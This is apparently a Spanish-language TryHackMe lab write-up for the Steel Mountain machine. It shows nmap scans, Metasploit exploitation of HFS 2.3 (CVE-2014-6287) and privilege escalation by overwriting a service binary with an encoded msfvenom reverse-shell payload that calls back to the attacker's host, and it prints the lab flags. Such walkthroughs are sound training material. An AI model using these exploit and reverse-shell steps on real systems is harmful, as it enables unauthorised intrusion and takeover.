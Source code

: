 # Steel Mountain

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:06
IP: 10.10.37.44

# **Reconocimiento (Recon)**

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 10.10.37.44 -oG allPorts

```

**Puertos Abiertos**:

80,135,139,445,3389,5985,8080,47001,49153,49155,49163,49164

![image.png](<imagenes/image 20.png>)

- [ ]  **Nmap serveis**

```bash
sudo nmap -sCV -p1,2,3 10.10.37.44 -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap 10.10.37.44

```

![image.png](<imagenes/image 21.png>)

# **Análisis de Vulnerabilidades**

Miramos las dos paginas web.
Vemos que la web alojada en el 8080 corre:

**HttpFile Server 2.3**

- **Vulnerabilidad Potencial**: HTTPFileServer 2.3 (CVE 2014-6287)
- **Exploit Disponibles**:
    
    ```bash
    searchsploit rejetto HTTP File Server
    HTTP File Server (HFS) Unauthenticated Remote Code Execution
    
    ```
    

# **Explotación (Exploit)**

**Metasploit**:

```bash
msfconsole
search rejetto HttpFileServer
use 0
set RHOST IP
set RPORT 8080
set TARGETURI /
set LHOST localIP

```

msf6 exploit(windows/http/rejetto_hfs_exec)

![image.png](<imagenes/image 22.png>)

- **Resultados**: Probamos pero da error.
Cambiamos payload a : payload/windows/meterpreter/reverse_http

```bash
set PAYLOAD 73
run

```

Obtenemos shell meterpreter

# **Escalada de Privilegios**

**Enumeración de Privilegios**: Bajamos el script de Powershell, PowerUp.ps1 para enumerar el sistema

```bash
upload PowerhShell.ps1
```

![image.png](<imagenes/image 23.png>)

- **Vulnerabilidad Encontrada**: Servicio que se puede reiniciar
- **Método de Escalada**: Creamos con msfvenom el payload
    
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.8.49.154 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advance.exe
    ```
    

Para subirlo a :
Ruta:
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
Nombre: AdvancedSystemCareService9

Paramos el servicio:

```bash
sc stop AdvancedSystemCareService9
```

Sobreescribimos el fichero ASCService.exe por el payload de msfvenom y renombramos

Abrimos un handler en Metasploit para recibir la consola:

```bash
msfconsole> search exploit/handler/multi
set LHOST nuestaIP
set LPORT 4443
exploit -j
sessions -i 1 'Para volver a la consola de meterpreter'

```

Reiniciamos el servicio :

```bash
sc start AdvancedSystemCareService9
'Al momento recibimos la shell del handler'
'Ponemos el terminal en background'
'volvemos a msfconsole'
sessions -i
'seleccionamos la shell que se ha creado'
session -i 2
 Obtenemos la shell con permisos de System

```

# **Post-Explotación**

Obtención de User.txt

- **Localización**:

```bash
dir root.txt /s
Directory of C:\\Users\\Administrator\\Desktop

```

- **Contenido**:

```bash
 type root.txt
 9af5f314f57607c00fd09803a587db80

```

### 5.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    dir user.txt /s
    Directory of C:\\Users\\bill\\Desktop\\
    
    ```
    
- **Contenido**:

```bash
   type user.txt
   b04763b6fcf51fcd7c13abc7db4fd365

```